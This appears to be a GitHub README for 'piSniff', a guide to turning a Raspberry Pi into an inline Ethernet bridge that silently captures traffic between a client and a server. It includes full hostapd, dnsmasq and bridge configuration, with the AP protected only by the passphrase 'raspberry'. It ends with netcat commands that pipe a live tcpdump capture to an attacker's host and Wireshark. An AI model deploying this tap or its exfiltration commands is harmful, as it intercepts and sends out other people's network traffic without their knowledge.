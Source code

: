 
<p align="center">
<img src="https://github.com/0x25/piSniff/blob/master/logo.PNG" alt="piSniff">
</p>

# piSniff [![contributions welcome](https://img.shields.io/badge/contributions-welcome-brightgreen.svg?style=flat)](https://github.com/dwyl/esta/issues)
sniff packet with your Raspberry and access it with wifi

```
                     attaker
                     (((.)))
                      (( ))
                     (((.)))
                    [wifi:AP]
client ------ [eth0]raspberry[usb:eth1] ----- server
                     


INSTALL ACCESS POINT

hostap:wifi access point
dnsmaq:dns & dhcp server 

sudo apt-get -y install dnsmasq hostapd

sudo echo "denyinterfaces wlan0" >> /etc/dhcpcd.conf

sudo nano /etc/network/interfaces.d/wlan0
----------------
allow-hotplug wlan0  
iface wlan0 inet static  
    address 172.24.1.1
    netmask 255.255.255.0
    network 172.24.1.0
    broadcast 172.24.1.255
#    wpa-conf /etc/wpa_supplicant/wpa_supplicant.conf
----------------


sudo service dhcpcd restart

sudo ifdown wlan0; sudo ifup wlan0


CONFIGURE AP

sudo nano /etc/hostapd/hostapd.conf
-------------------
# This is the name of the WiFi interface we configured above
interface=wlan0

# Use the nl80211 driver with the brcmfmac driver
driver=nl80211

# This is the name of the network
ssid=Pi3-AP

# Use the 2.4GHz band
hw_mode=g

# Use channel 6
channel=6

# Enable 802.11n
ieee80211n=1

# Enable WMM
wmm_enabled=1

# Enable 40MHz channels with 20ns guard interval
ht_capab=[HT40][SHORT-GI-20][DSSS_CCK-40]

# Accept all MAC addresses
macaddr_acl=0

# Use WPA authentication
auth_algs=1

# Require clients to know the network name
ignore_broadcast_ssid=0

# Use WPA2
wpa=2

# Use a pre-shared key
wpa_key_mgmt=WPA-PSK

# The network passphrase
wpa_passphrase=raspberry

# Use AES, instead of TKIP
rsn_pairwise=CCMP
--------------------

sudo nano /etc/default/hostapd
-----------------
DAEMON_CONF="/etc/hostapd/hostapd.conf"
----------------

CONFIGURE DNSMASQ

sudo mv /etc/dnsmasq.conf /etc/dnsmasq.conf.orig
sudo nano /etc/dnsmasq.conf 
----------------------
interface=wlan0      # Use interface wlan0  
listen-address=172.24.1.1 # Explicitly specify the address to listen on  
bind-interfaces      # Bind to the interface to make sure we aren't sending things elsewhere  
#server=8.8.8.8       # Forward DNS requests to Google DNS  
domain-needed        # Don't forward short names  
bogus-priv           # Never forward addresses in the non-routed address spaces.  
dhcp-range=172.24.1.50,172.24.1.150,12h # Assign IP addresses between 172.24.1.50 and 172.24.1.150 with a 12 hour lease time  
----------------------

START

sudo service hostapd start  
sudo service dnsmasq start


CONFIGURE BRIDGE eth0 eth1


sudo apt-get -y install bridge-utils

sudo brctl addbr br0
sudo brctl addif br0 eth0 eth1

sudo nano /etc/network/interfaces.d/eth0
------------
iface eth0 inet manuel
------------

sudo nano /etc/network/interfaces.d/eth1
------------
iface eth1 inet manuel
------------

sudo nano /etc/network/interfaces.d/br0
------------
iface br0 inet manuel
bridge_ports eth0 eth1
------------


EXPORT PCAP TO HOST

on attaker
nc -l -p 9999 > capture.pcap

on raspberry 
tcpdump -s0 -U -n -w - -i br0 | nc <attakerIP> 9999

send tcpdump to wireshark attaker (on attacker)
nc -l -p 9999 | wireshark -k -S -i-

```

<p align="center">
<h1> View</h1>
<img src="https://github.com/0x25/piSniff/blob/master/Capture1.PNG" alt="rapsberry pisniff">
<h1> wireshark in the attacker remote PC
<img src="https://github.com/0x25/piSniff/blob/master/Capture3.PNG" alt="wireshark pisniff">
</p>

